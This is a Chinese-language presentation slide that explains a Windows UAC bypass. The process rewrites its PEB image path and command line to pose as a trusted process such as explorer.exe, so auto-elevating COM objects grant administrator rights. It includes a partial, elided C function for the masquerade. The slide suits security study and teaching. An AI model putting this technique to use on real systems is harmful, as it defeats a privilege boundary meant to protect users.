

# BypassUAC的终极对决
Trusted Process
永不失效的方法（FFM）

MasqueradePEB 大法
当创建具有“auto elevate”属性的COM对象时，操作系统使用PSAPI来获取发起此操作的进程的信息。
PSAPI是通过进程的PEB来获取这些信息的。
通过修改进程的PEB结构中的相关信息，伪装成“可信进程”，从而骗过操作系统直接提升至管理员权限
Rundll32.exe、
Explorer.exe、etc.
VOID supMasqueradeProcess(
    _In_ BOOL Restore
)
{
    PPEB        Peb = NtCurrentPeb();
    PWSTR ImageFileName, CommandLine;
。。。。。。
    RtlAcquirePebLock();
。。。。。。
    RtlInitUnicodeString(&Peb->ProcessParameters->ImagePathName, ImageFileName);
    RtlInitUnicodeString(&Peb->ProcessParameters->CommandLine, CommandLine);
    RtlReleasePebLock();
。。。。。。
}